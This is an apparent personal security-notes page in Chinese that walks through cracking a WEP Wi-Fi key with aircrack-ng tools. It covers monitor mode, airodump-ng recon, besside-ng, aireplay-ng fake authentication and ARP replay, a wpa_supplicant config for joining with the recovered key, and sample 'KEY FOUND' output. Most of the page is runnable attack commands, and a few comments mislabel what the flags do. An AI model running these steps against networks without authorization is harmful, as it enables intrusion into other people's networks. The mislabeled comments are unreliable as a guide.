


WEP Crack
===
🔙 [MENU README](../README.md)


```
用 RC4 加密和初始化向量（initialization vector）的特性，在擷取大量封包後便有機會將金鑰破解
Aircrack-ng 是一款無線網路安全測試工具，支援多種攻擊演算法，可用於破解 WEP 和 WPA/WPA2 密碼
WPA/WPA2 的破解其實仰賴於字典攻擊
```
> https://then.tw/aircrack-ng-wep/


> 透過抓取IV完成破解


# 原理

```
1. 攻擊者傳送deauthentication(不需要任何權限)，打掉Client，在客戶端重新連接時得到4-Handshake內的資訊
2. PTK = PMK + ANounce + SNounce + MAC1 + MAC2
   PTK = Hash(ESSID + <PSK> + 4096)
         + ANounce + SNounce + MAC1 + MAC2
3. 所有資訊都可以從4-Handshake內得到，除了PSK也就是WiFi密碼，只要嘗試用字典檔去爆到MIC = HASH(PTK)相符合
```

# Recon
```bash
# Monitor
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --manufacturer --wps --band bga
```
```bash
# 找到WEP wifi
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSI                  MANUFACTURER
 F0:9F:C2:AA:19:29  -28      269     7478  278   1   54   WEP  WEP                wifi-old              Ubiquiti Networks Inc
# #Data > 一直有在傳輸資料 > 差不多要大於 20000 筆會比較穩定
# CH    > 1
# ENC   > 加密方式為WEP
```
```bash
# Attack1
sudo airodump-ng wlan0mon --manufacturer --wps --band bga --channel 1

# Attack2
sudo airodump-ng wlan0mon --ivs -c1 -w capture -d F0:9F:C2:AA:19:29
# --ivs : 僅捕獲 IV (Initialization Vector) 數據包
# -w    : write file
# -d    : BSSID 
```
# Attack1 - besside-ng
```bash
sudo besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan0mon -v

# Got key for wifi-old [11:bb:33:cd:55]
```
Change Conf
```bash
# wpa_supplicant.conf

network={
    ssid="wifi-guest"
    key_mgmt=NONE
    wep_key0=11bb33cd55
    wep_tx_keyidx=0
}
```
Try Connect
```bash
# connect
sudo wpa_supplicant -D nl80211 -i wlan2 -c wpa_supplicant.conf
# get IP
sudo dhclient wlan2 -v

# http://192.168.19.1
```

# Attack2 - aireplay-ng
Deauthentication
```bash
# 對客戶端傳送連線中斷訊息，從而使客戶端重新發出授權請求
# 再擷取其請求的封包，裡面就會有我們破解金鑰所需要的 IVs
sudo aireplay-ng -1 0 -a F0:9F:C2:AA:19:29 wlan0mon

# -1: 代表 fake authentication
# 0: 重連時間，以秒為單位
```
ARP Request Replay Attack
```bash
# 程式會監聽 ARP 封包，然後將其重新回傳 AP
# 這就會讓 AP 使用新的 IVs 重傳 ARP 封包
sudo aireplay-ng -3 -b 10:27:F5:F3:E2:7F wlp2s0mon

# -3: 表示進行 WPA 握手攻擊
```
破解 WEP 金鑰
```bash
# 回到 airodump-ng 的畫面，當看到 #Data 欄位的數字足夠大時，就可以開始破解 WEP 金鑰
# 差不多要大於 20000 筆會比較穩定
aircrack-ng capture-01.ivs

# ===============================

KEY FOUND! [ 11:BB:33:CD:55 ] 

```